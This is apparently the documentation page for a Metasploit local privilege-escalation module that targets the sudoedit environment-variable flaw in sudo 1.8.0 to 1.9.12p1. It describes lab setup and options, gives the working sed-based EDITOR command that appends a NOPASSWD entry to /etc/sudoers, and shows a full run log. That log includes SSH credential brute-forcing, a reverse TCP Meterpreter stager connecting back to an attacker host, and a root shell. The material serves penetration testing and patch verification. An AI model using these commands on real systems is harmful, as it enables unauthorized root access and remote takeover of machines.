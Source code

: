 ## Vulnerable Application

This exploit takes advantage of a vulnerability in sudoedit, part of the sudo package.
The sudoedit (aka sudo -e) feature mishandles extra arguments passed in the user-provided
environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to
append arbitrary entries to the list of files to process. This can lead to privilege escalation.
by appending extra entries on /etc/sudoers allowing for execution of an arbitrary payload with root
privileges.

Affected versions are 1.8.0 through 1.9.12.p1.

The check method for this module will only work with Debian based systems. However,
many *nix based systems should be vulnerable.

This module was tested against sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

### Exploit Breakdown

This exploit works by first identifying what file can be edited via `sudo -l`.  The `-S` flag
is also required or sudo may complain about not being in a proper tty environment, so `-S` specifies
to allow password input via stdin (although we never provide a password).

Next we make a new entry in `/etc/sudoers`.  In theory we could specify something similar to `"$USER ALL=(ALL:ALL) ALL"`
which many of the PoCs do, however we can be more surgical.  In this case, we don't specify the payload as most
Metasploit exploits would, but actually a shell (`/bin/sh` by default), as `sudo` doesn't play well with `&`.
We also add a flag at the end of our entry after a `#` (comment) for ease of erasing later.

Next we execute out payload, launching it through our shell.

Many of the PoCs work via user input where you have to manually edit `/etc/sudoers`. Obviously this strategy
won't work with Metasploit, as we need to automate it. Early attempts tried to script `vi` into performing
the write and quite command, similar to:
`EDITOR="vi -c ':$' -c ':s/$/\\ruser ALL=(ALL:ALL) ALL/' -c ':wq'  -c ':q' -- /etc/sudoers" sudo -e /etc/motd`
However, the command didn't do well with newlines and escaping.

`sed` however is a valid editor, so it was relatively trivial to script out adding the new entry via sed:
```EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: ALL' -- /etc/sudoers" sudo -e /etc/motd```

#### Fedora 21

```
[*] Executing command: EDITOR="sed -i -e '$ a fedora ALL=(ALL:ALL) NOPASSWD: /bin/sh # ZMoAqOkBfR9e' -- /etc/sudoers" sudo -S -e /etc/passwd
[*] sed: -e expression #1, char 1: unknown command: `''
```


### Install

On Ubuntu 22.04:

```
wget http://security.ubuntu.com/ubuntu/pool/main/s/sudo/sudo_1.9.9-1ubuntu2_amd64.deb
sudo dpkg -i sudo_1.9.9-1ubuntu2_amd64.deb
```

Now add an entry to `/etc/sudoers` for an editable file, in this case we use `/etc/motd`.
Change 'user' for whatever user you want to be able to exploit this:

```
user ALL=(root) NOPASSWD: sudoedit /etc/motd
```

Now test this by running `sudo -l` and you should see:

```
User <user> may run the following commands on <system>:
    (ALL : ALL) ALL
    (root) NOPASSWD: sudoedit /etc/motd
```

Noting the entry at the bottom to `/etc/motd`

## Verification Steps

1. Install the application
2. Get an initial shell
3. Do: `use exploit/linux/local/sudoedit_bypass_priv_esc`
4. Do: `set session [session]`
5. Do: `run`
6. You should get a root shell.

## Options

### EDITABLEFILE

The file which can be edited via `sudoedit`. An attempt to auto detect this is made, so it is only required
if auto detection fails.

### SHELL

Which shell to use. Defaults to `/bin/sh`


## Scenarios

### Sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

```
[*] Processing sudoedit.rb for ERB directives.
resource (sudoedit.rb)> use auxiliary/scanner/ssh/ssh_login
resource (sudoedit.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (sudoedit.rb)> set username ubuntu
username => ubuntu
resource (sudoedit.rb)> set password ubuntu
password => ubuntu
resource (sudoedit.rb)> run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.15.0-48-generic #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46613 -> 1.1.1.1:22) at 2023-04-25 18:46:03 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (sudoedit.rb)> use exploit/linux/local/sudoedit_bypass_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (sudoedit.rb)> set session 1
session => 1
resource (sudoedit.rb)> set verbose true
verbose => true
resource (sudoedit.rb)> exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] sudo version 1.9.9.pre.1ubuntu2 is vulnerable
[+] The target is vulnerable. Sudo 1.9.9.pre.1ubuntu2 is vulnerable, can edit: /etc/motd
[*] Writing '/tmp/.LImVy' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Adding user to sudoers
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # SbccIOwAiK1i' -- /etc/sudoers" sudo -S -e /etc/motd
[+] Likely successful exploitation, detected possitive error message: editing files in a writable directory is not permitted
[*] sudo: --: editing files in a writable directory is not permitted
[*] Spawning payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[-] Manual cleanup is likely required, please run: sed -i '/# SbccIOwAiK1i/d' /etc/sudoers
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:57426) at 2023-04-25 18:46:25 -0400

(Meterpreter 2)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 2)(/home/ubuntu) > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/home/ubuntu) > 
```
